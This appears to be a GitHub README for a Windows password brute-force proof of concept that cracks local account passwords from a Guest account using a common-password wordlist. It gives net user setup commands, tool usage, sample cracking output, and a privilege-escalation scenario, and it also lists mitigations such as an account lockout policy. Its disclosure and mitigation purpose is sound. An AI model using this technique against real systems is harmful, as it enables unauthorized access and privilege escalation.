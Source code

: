 # Win Brute Logon (Proof Of Concept)

Release date: `2020-05-14`

Target: Windows XP to Latest Windows 10 Version (1909)

![Console](https://i.ibb.co/Cm5052S/screen.png)

Weakness location : `LogonUserA`, `LogonUserW`, `CreateProcessWithLogonA`, `CreateProcessWithLogonW`

# Introduction

This PoC is more what I would call a serious weakness in Microsoft Windows Authentication mechanism than a vulnerability.

The biggest issue is related to the lack of privilege required to perform such actions.

Indeed, from a Guest account (The most limited account on Microsoft Windows), you can crack the password of any available local users.

Find out which users exists using command : `net user`

This PoC is using multithreading to speed up the process and support both 32 and 64bit.

# PoC Test Scenario

Tested on Windows 10 

Install and configure a freshly updated Windows 10 virtual or physical machine.

In my case full Windows version was : `1909 (OS Build 18363.778)`

Log as administrator and lets create two different accounts : one administrator and one regular user. Both users are local.

## Create a new admin user

`net user darkcodersc /add`

`net user darkcodersc trousers` (trousers is the password)

`net localgroup administrators darkcodersc /add`

## Create a regular user

`net user HackMe /add`

`net user HackMe ozlq6qwm` (ozlq6qwm is the password)

## Create a Guest account (If not already activated)

`net user Guest /add /active:yes`

`net localgroup users Guest /delete`

`net user Guest /add /active:yes`

## Get a Wordlist 

In my case both `trousers` and `ozlq6qwm` are in SecList : https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10k-most-common.txt

## Start the attack

Logoff from administrator account or restart your machine and log to the Guest account. 

Place the PoC executable anywhere you have access as Guest user.

Usage : `WinBruteLogon.exe -v -u <username> -w <wordlist_file>`

`-v` is optional, it design the verbose mode.

By default, domain name is the value designated by `%USERDOMAIN%` env var. You can specify a custom name with option `-d`

### Crack First User : `darkcodersc` (Administrator)

prompt(guest)>`WinBruteLogon.exe -v -u darkcodersc -w 10k-most-common.txt`

Wait few seconds to see the following result:

````
[ .. ] Load 10k-most-common.txt file in memory...
[DONE] 10002 passwords successfully loaded.
[INFO] 2 cores are available
[ .. ] Create 2 threads...
[INFO] New "TWorker" Thread created with id=2260, handle=364
[INFO] New "TWorker" Thread created with id=3712, handle=532
[DONE] Done.
[ OK ] Password for username=[darkcodersc] and domain=[DESKTOP-0885FP1] found = [trousers]
[ .. ] Finalize and close worker threads...
[INFO] "TWorkers"(id=2260, handle=364) Thread successfully terminated.
[INFO] "TWorkers"(id=3712, handle=532) Thread successfully terminated.
[DONE] Done.
[INFO] Ellapsed Time : 00:00:06
````

### Crack Second User : `HackMe` (Regular User)

prompt(guest)>`WinBruteLogon.exe -v -u HackMe -w 10k-most-common.txt`

Wait few seconds to see the following result:

````
[ .. ] Load 10k-most-common.txt file in memory...
[DONE] 10002 passwords successfully loaded.
[INFO] 2 cores are available
[ .. ] Create 2 threads...
[INFO] New "TWorker" Thread created with id=5748, handle=336
[INFO] New "TWorker" Thread created with id=4948, handle=140
[DONE] Done.
[ OK ] Password for username=[HackMe] and domain=[DESKTOP-0885FP1] found = [ozlq6qwm]
[ .. ] Finalize and close worker threads...
[INFO] "TWorkers"(id=5748, handle=336) Thread successfully terminated.
[INFO] "TWorkers"(id=4948, handle=140) Thread successfully terminated.
[DONE] Done.
[INFO] Ellapsed Time : 00:00:06
````

# Real world scenario

If you gain access to a low privileged user, you could crack the password of a more privileged user and escalate your privilege.

# Mitigation (General)

- Disable guest account if it is not absolutely required.
- Application white-listing.
- Follow the guidelines to create and keep a password strong. Apply this to all users.

## Implement Security Lockout Policy (Not present by default)

Open `secpol.msc` then go to `Account Policies` > `Account Lockout Policy` and edit value `Account lockout threshold` with desired value from (1 to 999).

Value represent the number of possible attempt before getting locked.

# Weakness Report

A report was sent to Microsoft Security Team.

They should at least implement by default account lockout. Actually it is not.